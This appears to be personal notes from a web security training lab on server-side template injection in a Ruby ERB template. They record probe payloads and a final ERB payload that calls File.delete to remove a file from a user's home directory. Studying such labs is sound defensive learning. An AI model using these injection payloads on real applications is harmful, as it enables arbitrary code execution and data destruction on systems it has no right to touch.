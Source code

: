 *This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.
To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.*

Saw this message when I clicked on the first product:
![[Screenshot 2024-06-03 at 9.55.25 AM.png]]
Sent this request to the *Repeater* and since I knew it was ERB, I tried the following payloads:
- `{{7*7}} = {{7*7}}`
- `${7*7} = ${7*7}`
- `<%= 7*7 %> = 49`
- `<%= foobar %> = Error`
(The correct way would be to either scan the insertion points or send the request to Intruder and fuzz for SSTI)
I found that the last payload `<%= foobar %> = Error` worked:
![[Screenshot 2024-06-03 at 10.05.09 AM.png]]
Ran the following line of code after seeing the syntax from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby) and reading the ERB syntax:
`<%=File.delete('/home/carlos/morale.txt')%>`
This solved the lab:
![[Screenshot 2024-06-03 at 10.21.53 AM.png]]
